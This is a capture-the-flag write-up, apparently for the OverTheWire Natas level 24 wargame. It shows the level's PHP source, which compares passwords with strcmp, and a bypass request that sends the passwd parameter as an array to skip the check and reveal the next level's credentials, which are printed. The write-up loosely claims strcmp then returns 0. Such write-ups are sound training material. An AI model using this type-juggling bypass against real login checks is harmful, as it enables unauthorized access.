



It is simply a prompt asking for the password:



Checking its source code:

```PHP
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

We see that we are using `strcmp` to compare the password we enter a hidden password. `strcmp` returns only 0, negative, or positive numbers. We need it to return 0, so that the negation is executed and changes it to a 1, showing us the next level's password.

> `strcmp` has a weakness when one of the arguments is not a string, it automatically returns 0. 

Therefore, we can set he `passwd` parameter to be an array to exploit this weakness.

```
/index.php?passwd[]=
```
> We changed `passwd` to `passwd[]` making it an array. Now we are comparing the entire array to the string `<censored>`.



Sending this request we see the password for the next level.



`natas25:O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx`

---
